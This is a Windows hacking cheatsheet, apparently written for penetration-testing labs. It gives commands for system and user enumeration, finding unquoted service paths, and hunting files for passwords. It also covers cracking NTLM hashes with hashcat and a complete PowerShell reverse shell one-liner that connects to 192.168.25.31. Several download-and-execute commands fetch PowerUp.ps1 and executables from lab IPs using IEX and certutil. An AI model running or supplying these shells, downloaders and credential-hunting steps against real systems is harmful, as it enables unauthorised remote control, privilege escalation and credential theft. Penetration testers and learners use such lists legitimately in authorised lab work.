 # WINDOWS HACKING CHEATSHEET

<!--
##################################################################
##################################################################
-->

## System Enumeration

#### Show Patches
`wmic qfe get Caption,Description,HotFixID,InstalledOn`

#### Show Drives
`wmic logicaldisk get caption,Description,providername`

#### Find specific directory
`dir <Folder Name> /AD /s`

#### Find specific file name on system
`dir /a /s /b c:\*flag2.txt`

`dir /b/s *.txt`

`where /r c:\Windows *.exe *.dll`

#### Find Unquoted service paths
`wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" | findstr /i /v """`

#### Allow execution of scripts in powershell
`Set-ExecutionPolicy unrestricted`

#### Show execution policy
`Get-ExecutionPolicy -List | Format-table -AutoSize`

<!--
##################################################################
##################################################################
-->

## User Enumeration

#### Show User Privlages
`whoami /priv`

#### Show a Users Group
`whoami /groups`

#### List users in a group
`net localgroup administrtor`

#### Show info on specified user
`net user administrator`

<!--
##################################################################
##################################################################
-->

## Network Enumeration

#### Show Routing table
`route print`

<!--
##################################################################
##################################################################
-->

## Shells

#### Powershell Reverse Shell One Liner
```
$client = New-Object System.Net.Sockets.TCPClient("192.168.25.31",7777);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

<!--
##################################################################
##################################################################
-->

## Passwords

#### Use cached creds Windows
`runas /u:Administrator cmd.exe /c findstr /si *.txt > C:\Users\offsec\Desktop\text.txt`

#### Cracking Windows Password Hash
_Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::_
_USERNAME:SID:LM(BLANK=aad3b435b51404eeaad3b435b51404ee):NTLM:::_

`hashcat -m 1000 -a 0 -o plain-pass.txt --remove file-with-hash.hash /usr/share/wordlists/rockyou.txt`

#### Find file containing keyword
`findstr /si password *.txt | *.xml | *.xls`

<!--
##################################################################
##################################################################
-->

## Useful Commands

#### Windows spawn cmd and execute command
`cmd.exe /c echo "hello world"`

#### Windows download from web
`IEX(New-Object Net.WebClient).downloadString('http://10.9.3.23/PowerUp.ps1')`

#### Use certutil to download from web
`certutil.exe -urlcache -split -f "http://10.9.3.23/Advanced.exe" Advanced.exe`

#### Windows Powershell download from web
`powershell "IEX(New-Object Net.WebClient).downloadString('http://10.9.3.23/PowerUp.ps1')"`

#### Mount NFS v3
`mount -t nfs -o vers=3 $ip:/dir /mnt/dir`

#### Download via windows CMD
`powershell -c (new-object System.Net.WebClient).DownloadFile('http://192.168.25.31/privesc/accesschk.exe','C:\Users\GitService\Desktop\accesschk.exe')`

#### Search long output
`command |more`